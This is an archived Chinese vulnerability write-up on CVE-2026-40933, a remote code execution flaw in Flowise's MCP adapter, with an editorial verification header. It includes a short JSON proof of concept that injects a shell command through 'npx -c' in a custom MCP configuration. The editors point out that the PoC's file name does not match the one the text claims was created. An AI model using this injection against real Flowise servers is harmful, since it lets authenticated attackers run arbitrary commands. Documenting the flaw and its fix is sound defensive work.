


# 【漏洞复现】Flowise 中通过 MCP 适配器实现远程代码执行漏洞（CVE-2026-40933）

> 编号角色校订（2026-10-04）：按技术主体及多编号分节核对主讨论对象、链成员与引用，当前编号字段据此更新；旧编号原值及 `identifier_status` 均保留，变更前字段保存在 `previous_*`。后文原有角色待核项按当前字段阅读，版本、配置及证据缺口未因此自动解决；原作者的复现声明不升级为维护者复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Flowise MCP adapter
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：需要认证及自定义MCP配置权限应结构化；已有官方GHSA和OX链接保留，版本3.0.13/3.1.0待原始核
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. JSON touch /tmp/pwn与声称创建/tmp/test不一致，无法对应证据
2. 需要认证及自定义MCP配置权限应结构化
3. 写文件需清理，不能仅正常支持stdio断言漏洞须依据命令清理边界
4. 已有官方GHSA和OX链接保留，版本3.0.13/3.1.0待原始核

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

 信通云服   2026-04-22 08:38  
  
# 【漏洞描述】  
# 组件介绍  
  
Flowise是一个开源的可视化低代码平台，用于快速构建基于大语言模型（LLM）的AI应用。  
# 漏洞简介  
  
在 Flowise 3.0.13 及更早版本中，MCP 适配器对 stdio 命令的清理存在缺陷，允许已通过身份验证的攻击者在自定义 MCP 配置中，通过 npx -c 等看似合法的命令注入任意操作系统指令，从而实现远程代码执行，攻击者可在底层服务器上执行任意命令。该漏洞已在 3.1.0 版本中修复。  
# 【漏洞复现】  
  
进入  
Chatflows页面  
创建一个新的自定义MCP，并添加“npx -c”命令。  
  
  
  
poc  
```
{
    "command": "npx",
    "args": [
        "-c",
        "touch /tmp/pwn"
    ]
}
```  
  
  
  
成功执行touch /tmp/test命令创建test文件  
  
  
  
  
# 【修复建议】  
  
升级至 3.1.0 或更高版本  
  
【  
参考链接  
】  
  
https://www.ox.security/blog/the-mother-of-all-ai-supply-chains-critical-systemic-vulnerability-at-the-core-of-the-mcp  
  
https://www.ox.security/blog/mcp-supply-chain-advisory-rce-vulnerabilities-across-the-ai-ecosystem  
  
https://github.com/FlowiseAI/Flowise/security/advisories/GHSA-c9gw-hvqq-f33r  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
